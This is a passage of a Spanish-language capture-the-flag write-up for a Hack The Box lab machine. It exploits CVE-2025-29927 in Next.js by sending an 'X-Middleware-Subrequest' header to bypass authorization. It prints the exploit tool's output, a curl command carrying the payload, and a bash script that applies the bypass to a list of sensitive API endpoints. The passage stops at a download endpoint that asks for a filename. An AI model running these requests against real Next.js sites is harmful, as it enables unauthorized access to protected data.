 Info:

```
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2025-29927 (Next.js) - Authorization Bypass
TARGETS: http://previous.htb/api
PREPARE: Target is running Next.js!
LOADING: Detecting Next.js version with Selenium...
VERSION: Target is running Next.js version 15.2.2 (Vulnerable)

PAYLOAD: {'X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware'}
EXPLOIT: Payload sent!
SUCCESS: Authorization bypass header found!
OUTPUTS: Response written to file: nextjs_bypass_previous.htb.html
REQUEST: curl -i -k "http://previous.htb/api" -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware"
```

Veremos que funciona, por lo que vamos a probar varios parametros de `endpoint` de la `API` a ver cual puede existir ya que estamos `bypasseando` el `login`.

> urlBypass.sh

```bash
# Script para probar múltiples endpoints
ENDPOINTS=("users" "admin" "config" "settings" "database" "files" "upload" "download" "auth" "session" "tokens" "ssh" "backup")

for endpoint in "${ENDPOINTS[@]}"; do
    echo "Testing: /api/$endpoint"
    curl -s -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/$endpoint" | head -20
    echo "---"
done
```

Lo ejecutaremos de esta forma:

```shell
bash urlBypass.sh
```

Info:

```
............................<RESTO DEL CODIGO>.....................................
Testing: /api/download
{"error":"Invalid filename"}
............................<RESTO DEL CODIGO>.....................................
```

Por lo que vemos aqui nos pide un archivo como parametro, por lo que esta funcionando, vamos a probar a realizar lo siguiente:
